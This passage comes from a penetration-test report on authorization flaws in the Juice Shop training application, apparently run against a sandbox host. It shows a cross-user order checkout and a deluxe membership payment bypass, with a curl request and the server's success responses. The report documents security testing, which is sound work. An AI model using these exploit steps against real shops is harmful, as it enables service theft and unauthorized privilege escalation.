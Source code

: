3. Receive successful order confirmation:
```json
{
  "orderConfirmation": "4b18-43fe98bb0ee5172c"
}
```

**Proof of Impact:**
- **Unauthorized order completion** - checked out basket belonging to User ID 2
- **Order confirmation generated** (4b18-43fe98bb0ee5172c)
- **Financial workflow bypassed** - completed purchase process for another user
- **Cross-user transaction** without ownership validation

### AUTHZ-VULN-09: Deluxe Membership Payment Bypass

**Summary:**
- **Vulnerable location:** POST /rest/deluxe-membership endpoint
- **Overview:** Upgrade to deluxe membership without completing payment
- **Impact:** Service theft and privilege escalation without payment
- **Severity:** High

**Prerequisites:**
Valid customer authentication token

**Exploitation Steps:**

1. Authenticate as regular customer
2. Attempt deluxe upgrade without payment:
```bash
curl -s -i -X POST "http://juice-shop.sandbox.local:3001/rest/deluxe-membership" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{}'
```

3. Receive successful upgrade confirmation:
```json
{
  "status": "success",
  "data": {
    "confirmation": "Congratulations! You are now a deluxe member!",
    "token": "[NEW_DELUXE_JWT_TOKEN_WITH_ELEVATED_ROLE]"
  }
}
```

**Proof of Impact:**
- **Payment bypassed** - no payment information required or processed
- **Role elevated** - JWT token now contains "deluxe" role instead of "customer"
- **Valid deluxe token issued** - can access deluxe features and pricing
- **Service theft** - obtained paid membership without payment

### AUTHZ-VULN-10: Registration Workflow Bypass for Admin Access
